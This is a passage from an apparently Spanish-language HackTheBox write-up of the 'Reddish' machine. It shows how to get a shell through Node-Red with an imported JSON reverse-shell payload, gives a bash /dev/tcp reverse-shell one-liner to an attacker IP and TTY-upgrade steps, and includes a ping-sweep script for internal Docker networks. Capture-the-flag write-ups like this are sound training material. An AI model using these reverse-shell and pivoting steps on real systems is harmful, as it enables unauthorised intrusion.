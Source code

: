 Si entramos en esa ruta veremos la pagina web de Node-Red. Una forma sencilla de entablarnos una reverse shell seria insertando nuestro propio código en json e importandolo. Podemos encontrar el payload en este recurso de github: [Node-Red Reverse Shell](https://github.com/valkyrix/Node-Red-Reverse-Shell/blob/master/node-red-reverse-shell.json)
Tendremos que cambiar el host y el puerto.
![](/assets/images/htb-writeup-reddish/node_red_codigo.png)


Para importarlo nos iremos al menú de arriba a la derecha > Import > Clipboard y aceptamos. Veremos que se nos crea un esquema y solo tendriamos que ponernos en esucha con netcat por el puerto indicado y darle a **Deploy**. Con esto tendremos una consola siempre que nos pongamos en escucha en ese puerto.
![](/assets/images/htb-writeup-reddish/netcat_code_red.png)


Para entablarnos una consola interactiva podemos usar el comando de bash ya que no podremos hacer un tratamiento de la TTY en la consola de Node-Red
```bash
bash -c 'bash -i >&/dev/tcp/10.10.14.11/444 0>&1'
```
Nos ponemos en escucha por el puerto 444 y hacemos el tratamiento de la TTY. Con esto entraremos como root

```bash
script /dev/null -c bash
ctrl + z
stty raw -echo;fg
reset xterm
```
## Descubrimiento de hosts y sus puertos

Una vez dentro si hacemos **hostname -I** nos daremos cuenta de que tenemos varias interfaces: **172.18.0.2 172.19.0.3** (Estas IP pueden variar debido a que docker asigna IP dinámicas a los contenedores). Por lo que ahora tendriamos que descubrir si hay mas hosts abiertos. Lo podemos hacer con este script:
```bash
#!/bin/bash

function ctrl_c(){
	echo -e "\n\n[!] Saliendo....\n"
	exit 1
}

# Ctrl + C
trap ctrl_c INT

networks=(172.18.0 172.19.0)

for network in ${networks[@]}; do
	echo -e "[+] Enumerando el network $network: "
	for host in $(seq 1 254); do 
		timeout 1 bash -c "ping -c 1 $network.$host" &>/dev/null && echo "HOST $network.$host ACTIVO" &
	done; wait
done
```
Para pasarlo a la máquina lo tendremos que hacer en base64 porque no disponemos de nano ni vi.